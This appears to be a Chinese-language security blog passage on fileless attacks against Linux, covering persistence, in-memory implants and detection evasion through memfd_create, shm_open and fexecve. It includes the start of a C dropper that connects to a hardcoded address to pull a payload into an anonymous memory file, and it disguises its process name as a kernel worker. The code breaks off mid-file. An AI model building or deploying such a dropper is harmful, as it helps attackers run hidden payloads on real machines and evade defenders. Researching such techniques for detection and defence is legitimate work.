 # 0x00 无文件攻击(Linux)

00

持久控制、不落地种马、躲避检测。

## 1 整体思路

**step1**: 代码寄存。将核心代码放到远离目标的远端服务器上。

elf文件、命令、脚本语言代码。



**step2**: 加载代码到内存。

shm_open 创建共享内存文件，源于Linux进程间使用共享达到快速交换数据的思想。该文件存在于/dev/shm/或/tmpfs/目录下。

memfd_create 获取一个匿名文件并返回可供操作的文件描述符。该匿名文件存在于/proc/pid/fd/目录下。

基于shm_open的无文件攻击现在已经没人讨论了，隐身性较差。

**step3**: 调用运行。

libc提供了不少执行可执行文件的函数，这类函数常被称为execl函数族。fexecve是无文件攻击场景下最爱用的函数，给定一个文件描述符，它就能运行指向的文件。



### 1.1 公开进展

当前针对Linux的无文件攻击demo普遍要求目标设备上有一个已落地文件。这个落地文件是个加载器，用它加载真正需要运行的代码。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/image-20211202145901770.png)

#### 1.1.1 C码加载器

```c
//https://0x00sec.org/t/super-stealthy-droppers/3715
#include <stdio.h>
#include <stdlib.h>

#include <sys/syscall.h>

#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>

#define __NR_memfd_create 319
#define MFD_CLOEXEC 1

static inline int memfd_create(const char *name, unsigned int flags) {
    return syscall(__NR_memfd_create, name, flags);
}

extern char        **environ;

int main (int argc, char **argv) {
  int                fd, s;
  unsigned long      addr = 0x0100007f11110002;
  char               *args[2]= {"[kworker/u!0]", NULL};
  char               buf[1024];

  // Connect
  if ((s = socket (PF_INET, SOCK_STREAM, IPPROTO_TCP)) < 0) exit (1);
  if (connect (s, (struct sockaddr*)&addr, 16) < 0) exit (1);
  if ((fd = memfd_create("a", MFD_CLOEXEC)) < 0) exit (1);

```